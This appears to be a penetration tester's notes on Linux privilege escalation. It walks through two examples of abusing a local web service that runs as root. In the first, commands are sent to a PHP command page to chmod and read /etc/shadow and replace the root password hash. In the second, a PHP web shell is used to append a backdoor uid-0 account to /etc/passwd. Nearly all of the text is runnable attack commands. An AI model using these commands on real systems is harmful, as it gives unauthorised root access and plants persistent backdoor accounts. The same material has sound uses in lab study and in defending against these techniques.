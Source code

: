 #### Example 1
Say we find a listener on port 8080 running as root.  We can try using curl to POST data to it, first may need to find the files related to that port:

[[find]]
```bash - target
find / -iname *.php* 2>/dev/null
```

```bash - target
find / -iname *.html* 2>/dev/null
```


```bash - target
cat start_page.php
```

Here we can see discussion of cmd.php page.

![[Pasted image 20220713144014.png]]

```bash - target
cat cmd.php
```

Here we see on the cmd.php page that we can POST data to it and it will run the command.

![[Pasted image 20220713144136.png]]

```bash - target
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='id'
```

Next start testing what you can do with passwd and shadow files.  Below, we will chmod shadow file and replace hash vaule.

```bash - target
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='chmod 777 /etc/shadow'
```

```bash - target
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='cat /etc/shadow'
```

Copy contents to local shadow file on kali to edit and send back.

```bash - kali
mkpasswd -m sha-512 password
```

`$6$5gnWUgDEXJ.J.X3s$truKvZr/Vl7o5SIb.TEgR44LyihHNUoCZnt4PIIO31EyTOc6Pfccd1AYdwwp2Vj1CT.1y1vpxroyvuhxCYKGl/`

Replace root password hash with above, send to target and replace /etc/shadow

```bash - target
su root
```

```bash - target
password
```

#### Example 2

We find a php file listening on port 8000.

```bash - target
cat cmd.php
```

><?php system($_POST['cmd']); ?>

verify we can run commands with this by creating a test file:

```bash - target
curl -X POST --data cmd='touch /home/$USER/test' 127.0.0.1:8000/cmd.php
```

Generate a password hash for the password “password”

using openssl:

```bash - target
openssl passwd "password"
```

```bash - target
curl -X POST --data cmd=' echo newroot:Ar4farDnTEYmw:0:0:root:/root:/bin/bash >> /etc/passwd' 127.0.0.1:8000/cmd.php
```

```bash - target
cat /etc/passwd | grep root
```

![[Pasted image 20221110094556.png]]

```bash - target
su newroot
```

```bash - target
password
```